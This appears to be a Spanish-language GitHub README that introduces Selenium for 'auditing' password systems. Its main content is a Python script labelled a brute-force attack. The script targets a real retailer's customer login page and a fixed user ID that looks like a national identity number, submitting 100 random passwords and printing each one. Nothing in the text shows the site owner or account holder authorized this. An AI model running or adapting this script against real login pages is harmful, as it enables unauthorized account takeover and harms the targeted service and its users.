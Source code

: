 # Automatización de credenciales con python y selenium
Auditar la implementación de los sistemas de creación, actualización, acceso, transmisión y recuperación de contraseñas

## Selenium 
Selenium es un entorno de pruebas que se utiliza para automatizar servicios de sowftware.

## Instalación
Usa el pip en la consola para instalar el paquete de selenium.

```bash
pip install selenium
```
## Ejemplo de uso de python con selenium (ataque fuerza bruta)

```python
import string
import time
import random

'''Carga el módulo webdriver para implementar
las clases y métodos para el soporte de los
diferentes navegadores'''

from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.action_chains import ActionChains
driver = webdriver.Chrome()
driver.get('https://www.wei.cl/cliente/ingreso')
time.sleep(5)
letters = string.ascii_letters + string.digits
for x in range(100):
    usr = driver.find_element_by_id("client-username")
    usr.clear()
    usr.send_keys("20189579-0")
    psw = driver.find_element_by_id("client-password")
    str = ''.join(random.choice(letters) for i in range(random.randrange(6,10)))
    
    #Se introduce el valor que contiene la variable password
    psw.send_keys(str)
    print(str)
    
    #Está variable permite efectuar un evento click a la página web mediante el xpath
    clk = driver.find_element_by_xpath('//*[@id="form-ingreso-window"]/button').submit()
    time.sleep(1)
    psw.clear()
```
